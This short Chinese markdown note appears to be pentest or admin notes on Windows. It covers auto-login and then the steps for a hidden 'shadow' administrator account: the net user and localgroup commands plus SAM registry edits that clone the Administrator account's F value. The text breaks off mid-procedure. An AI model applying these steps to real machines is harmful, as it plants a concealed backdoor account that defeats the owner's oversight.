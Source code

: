 # Windows

### 自动登录设置

```angular2html
control userpasswords2

```

### Windows注册表添加账户

> 使用命令 `net user admin$ admin /add`添加账户
>
> 使用命令 `net localgroup administrators admin$ /add`添加进管理员组
>
> 使用命令 `regedit`打开注册表，跳转到 `HKEY_LOACL_MACHINE\SAM\SAM` 发现没有展开项，需要修改权限为 `当前用户-完全控制`
> 
> 然后将继续展开 `Domains\Account\Users` 找到添加的账户导出注册表，找到对应制的F替换成Administrator账户的F值，导出
>